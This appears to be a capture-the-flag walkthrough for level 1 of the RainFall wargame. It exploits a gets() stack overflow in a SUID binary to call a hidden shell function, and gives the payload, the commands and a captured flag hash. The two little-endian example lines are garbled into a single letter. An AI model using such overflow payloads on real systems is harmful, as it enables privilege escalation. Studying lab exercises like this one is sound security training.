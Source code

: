 ## Level 1 Walkthrough

### Who am I?

```bash
level1@RainFall:~$ id
uid=2001(level1) gid=2001(level1) groups=2001(level1)
```

### Where am I?

```bash
level1@RainFall:~$ ll
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

We are in possession of a SUID binary owned by `level2`. Our objective is to exploit this binary to gain a shell as `level2` and read the corresponding `.pass` file.

---

## Program Behavior

The program accepts input from stdin and immediately returns. It does not provide any feedback, which suggests that its behavior is silent unless something specific is triggered.

Here are a few examples:

```bash
level1@RainFall:~$ ./level1
hello
level1@RainFall:~$ ./level1
123
level1@RainFall:~$ echo "test" | ./level1
level1@RainFall:~$
```

In each case, the program accepts the input and exits quietly, without printing anything or showing an error message. This confirms that it expects a very specific input or is relying on hidden internal logic.

---

## Static Analysis (Ghidra)

Using Ghidra, we observe two key functions:

### `void run(void)`

```c
void run(void)
{
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}
```

This function prints a message and attempts to spawn a shell.

### `void main(void)`

```c
void main(void)
{
  char buffer[76];
  gets(buffer);
}
```

The use of `gets()` is unsafe, as it does not check the length of user input. This presents a classic buffer overflow opportunity.

---

## Exploitation Strategy

### Step 1: Identify the overflow offset

We want to find how many bytes it takes to reach and overwrite the return address. Using trial and error or pattern generation, we determine this offset is **76 bytes**.

### Step 2: Find `run()` address

Using GDB:

```bash
(gdb) p &run
$1 = (<text variable, no debug info> *) 0x8048444 <run>
```

### Step 3: Craft the payload

Before building the payload, it is important to understand how memory addresses are represented in this architecture.

#### Why little-endian?

The system we're exploiting runs on an **x86 (i386)** architecture, which uses **little-endian** byte ordering. This means that when a multi-byte value (like an address) is stored in memory, its **least significant byte (LSB)** is stored first.

For example, if the address of `run()` is:

```
0x08048444
```

Then it must be written in memory as:

```
D
```

This is because memory reads the bytes from lowest to highest address, and in little-endian systems, the LSB comes first.

If you were to write it as `D`, it would actually represent a totally different address (0x44840408), and your exploit would fail.

* 76 bytes of filler (e.g. "A" \* 76)
* Address of `run()` in little-endian format: `\x44\x84\x04\x08`

```bash
python -c 'print("A" * 76 + "\x44\x84\x04\x08")' > /tmp/exploit
```

### Step 4: Make the shell interactive

If we run:

```bash
level1@RainFall:~$ cat /tmp/exploit | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

The message "Good... Wait what?" confirms that the `run()` function was successfully invoked, but the shell dies immediately afterward. This happens because the pipe (`|`) closes the standard input (`stdin`) of the child process.

As a result, the shell spawned by `system("/bin/sh")` cannot read input and exits instantly.

To fix this, we use `-` with the `cat` command. This tells `cat` to concatenate both `/tmp/exploit` **and** the terminal's `stdin`, so that `./level1` receives the exploit payload and can still read from user input afterward:

```bash
cat /tmp/exploit - | ./level1
```

This keeps the shell open and interactive.

### Step 5: Validate access

```bash
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Files in this repository

```
level1/
├── flag.txt
├── walkthrough.md
└──decompiled_level1/
   ├── main.c
   └── run.c   
```

